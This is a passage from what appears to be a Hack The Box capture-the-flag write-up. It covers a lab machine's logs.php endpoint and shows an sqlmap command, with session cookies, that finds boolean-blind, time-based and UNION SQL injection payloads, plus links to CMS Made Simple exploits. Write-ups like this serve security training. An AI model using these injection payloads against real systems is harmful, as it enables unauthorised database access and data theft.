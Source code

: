 ![][admin-panel]

## Editor on CMS MS

There's `http://overflow.htb/home/logs.php?name=admin`:

```js
async function getUsers() {
let url = 'http://overflow.htb/home/logs.php?name=admin';
try {
let res = await fetch(url);
return await res.text();
} catch (error) {
console.log(error);
}
}

async function renderUsers() {
let users = await getUsers();
let html = '';
let container = document.querySelector('.content');
container.innerHTML = users;
}
```

It looks like a weak script:

```bash
sqlmap -v 2 -u 'http://overflow.htb/home/logs.php?name=admin' \
    --cookie=$'auth=A54aWjWWqj93DBpOuslsPwAAAAAAAAAA; CMSSESSIDf25decdf38ae=rcli3spa091baa9gtfjpgfkpd0' \
    --dbms mysql --answer="redirect=N" -p "name" \
    --level 5 --risk 3 --time-sec 2 --batch --proxy=http://localhost:8080/
# sqlmap resumed the following injection point(s) from stored session:
# ---
# Parameter: name (GET)
#     Type: boolean-based blind
#     Title: AND boolean-based blind - WHERE or HAVING clause
#     Payload: name=admin') AND 9963=9963-- GNWJ
#     Vector: AND [INFERENCE]

#     Type: time-based blind
#     Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
#     Payload: name=admin') AND (SELECT 8088 FROM (SELECT(SLEEP(2)))Vnlq)-- ogDW
#     Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])

#     Type: UNION query
#     Title: Generic UNION query (NULL) - 3 columns
#     Payload: name=admin') UNION ALL SELECT NULL,NULL,CONCAT(0x716a717a71,0x78717052774f4e5757444b67554d7977636e6c4d476b7a6155744662626b51646250446e53726b68,0x716b6b6271)-- -
#     Vector:  UNION ALL SELECT NULL,NULL,[QUERY]-- -
```


[author-profile]: https://app.hackthebox.com/users/172213
[blog-posts]: images/screenshots/blog-posts.png
[cmsms-version]: images/screenshots/cmsms-version.png
[cmsms-exploit]: https://www.rapid7.com/db/modules/exploit/multi/http/cmsms_object_injection_rce/
[cve-2019-9053]: https://www.exploit-db.com/exploits/46635
[cve-2019-9060]: https://nvd.nist.gov/vuln/detail/CVE-2019-9060
[user-profile]: images/screenshots/profile.png
